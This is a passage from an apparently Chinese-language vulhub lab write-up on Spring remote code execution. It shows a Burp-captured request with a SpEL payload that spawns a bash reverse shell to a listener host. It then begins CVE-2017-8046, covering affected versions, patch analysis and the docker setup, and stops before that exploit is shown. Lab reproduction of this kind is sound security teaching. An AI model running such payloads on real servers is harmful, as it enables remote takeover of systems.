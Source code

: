 进入如下页面，此处用bp抓包

![](https://gitee.com/fuli009/images/raw/master/public/20210817101950.png)

bp抓包如下所示

![](https://gitee.com/fuli009/images/raw/master/public/20210817101951.png)

这里构造一个bash反弹的payload

    
    
    &_(new java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.1.2/5555 0>%261")).start()=vulhub

打开nc监听端口

![](https://gitee.com/fuli009/images/raw/master/public/20210817101952.png)

把构造的payload放入抓到的包里发送

![]()

即可收到反弹shell

![](https://gitee.com/fuli009/images/raw/master/public/20210817101953.png)

# CVE-2017-8046

Spring-Data-REST-RCE(CVE-2017-8046)，`Spring Data
REST`对PATCH方法处理不当，导致攻击者能够利用JSON数据造成RCE。本质还是因为spring的SPEL解析导致的RCE

## 影响版本

Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3 Spring Boot version <
2.0.0M4 Spring Data release trains < Kay-RC3

## 漏洞分析

这里直接从补丁分析，从官方的描述来看就是就是Spring-data-
rest服务处理PATCH请求不当，导致任意表达式执行从而导致的RCE。首先来看下补丁，主要是evaluateValueFromTarget添加了一个校验方法verifyPath，对于不合规格的path直接报异常退出，主要是property.from(pathSource,type)实现，基本逻辑就是通过反射去验证该Field是否存在于bean中

![](https://gitee.com/fuli009/images/raw/master/public/20210817101954.png)

## 漏洞复现

进入CVE-2017-8046的docker环境

![](https://gitee.com/fuli009/images/raw/master/public/20210817101955.png)

访问http://192.168.1.10:8080/customers/1返回如下界面则存在漏洞
